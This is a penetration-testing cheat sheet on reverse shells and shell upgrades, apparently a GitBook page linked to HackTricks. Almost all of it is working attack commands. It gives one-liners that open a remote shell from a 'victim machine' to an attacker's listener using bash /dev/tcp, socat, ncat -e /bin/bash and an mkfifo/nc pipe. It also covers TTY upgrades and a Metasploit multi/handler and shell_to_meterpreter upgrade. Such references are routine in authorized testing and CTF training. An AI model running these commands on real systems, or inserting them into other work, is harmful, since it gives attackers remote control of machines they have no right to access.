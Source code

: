 # Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/linux" %}
Normal Shells
{% endembed %}

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys" %}
Full TTY Shells
{% endembed %}

## Bash

The classic bash-based reverse shell:

```
/bin/bash -i >& /dev/tcp/TargetIP/TargetPort 0>&1
```

**Note:** If the payload doesn't work because redirection or ampersand symbols behave weird in the vulnerable application, then base64 encoding the payload often works well.

## Socat TTY Shell

Do this for a full socat shell, no need to upgrade it. You need socat installed or a socat static binary for this, though.

On kali:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

On the victim machine:

```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR_IP_ADDRESS_HERE:4444
```

Once the connection is made, you probably want to increase the terminal size (run in the reverse shell on the victim machine):

```
stty rows 57 cols 211
```

## Ncat

Listen to port 8001 on attacker machine:

```
sudo nc -lnvp 8001
```

Run ncat on the victim machine:

```
ncat ATTACKER_IP_HERE 8001 -e /bin/bash
```

**Note: The command is ncat, not nc or netcat. There is a difference!**

## Mkfifo

`sh`-based mkfifo reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP_HERE ATTACKER_PORT_HERE >/tmp/f
```

## Upgrading Normal Shells to TTY shells

### Switch From ZSH To Bash

**Warning**: This doesn't work if your attacking machine uses zsh!

You can temporarily switch to bash:

```
exec bash --login
```

You can confirm you're using bash with:

```
ps -p $$
```

### Upgrade the Shell Using Python

Run this in the reverse shell to upgrade it. Don't worry if your terminal turns weird temporarily.

```
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

### &#x20;Upgrade the Shell Without Python

```
script -qc "/bin/bash -i" /dev/null
CTRL+Z
stty raw -echo
fg
export TERM=xterm 
```

## Upgrading Normal Shells to Meterpreter

Run `msfconsole`. Create a listener using `multi/handler`:

```
use exploit/multi/handler
set lhost YOUR_IP_ADDRESS
set lport 4444
```

Then use one of the above reverse shells to connect to the listener. Once you have the shell, press `CTRL + Z` to background the shell session. It will tell you the **session number**. Keep that in mind.

Next:

```
use post/multi/manage/shell_to_meterpreter
set session SESSION_NUMBER
```

Once the upgrade finishes, you'll be able to see your new session:

```
sessions -l
```

Interact with the new session with:

```
sessions -i NEW_SESSION_NUMBER
```

